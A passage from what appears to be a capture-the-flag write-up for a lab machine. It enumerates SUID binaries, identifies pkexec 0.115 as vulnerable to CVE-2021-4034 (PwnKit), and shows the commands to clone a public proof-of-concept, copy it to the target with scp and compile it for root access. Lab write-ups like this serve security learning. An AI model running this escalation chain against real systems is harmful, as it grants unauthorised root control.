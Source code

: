 ```js
/usr/bin/sudo
/usr/bin/fusermount3
/usr/sbin/grub2-set-bootflag
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/userhelper
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
/usr/libexec/qemu-bridge-helper
/usr/libexec/cockpit-session
/usr/libexec/sssd/krb5_child
/usr/libexec/sssd/ldap_child
/usr/libexec/sssd/proxy_child
/usr/libexec/sssd/selinux_child
/usr/libexec/spice-gtk-x86_64/spice-client-glib-usb-acl-helper
/usr/libexec/Xorg.wrap
```

Retrieving it's version we see it is vulnerable to the recent [CVE-2021-4034](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt).

```js
[dwight@paper ~]$ pkexec --version
pkexec version 0.115
```

We can use [this PoC](https://github.com/luijait/PwnKit-Exploit) to exploit pkexec and obtain root on the machine.
Since make is installed on the machine we clone the repo tar it up and scp it to the target as dwight.

```js
$ git clone https://github.com/luijait/PwnKit-Exploit
Cloning into 'PwnKit-Exploit'...
remote: Enumerating objects: 224, done.
remote: Counting objects: 100% (224/224), done.
remote: Compressing objects: 100% (224/224), done.
remote: Total 224 (delta 119), reused 4 (delta 0), pack-reused 0
Receiving objects: 100% (224/224), 64.38 KiB | 4.29 MiB/s, done.
Resolving deltas: 100% (119/119), done.
$ tar -czf PwnKit-Exploit.tar.gz PwnKit-Exploit
$ scp ./PwnKit-Exploit.tar.gz dwight@office.paper:/tmp
dwight@office.paper's password:
PwnKit-Exploit.tar.gz                                                                                                                                                                                        100%   92KB 791.0KB/s   00:00
```

There we unpack the archive and "make" the binary.

```js
[dwight@paper tmp]$ tar -xf PwnKit-Exploit.tar.gz
[dwight@paper tmp]$ cd PwnKit-Exploit/
[dwight@paper PwnKit-Exploit]$ make
cc -Wall    exploit.c   -o exploit
```
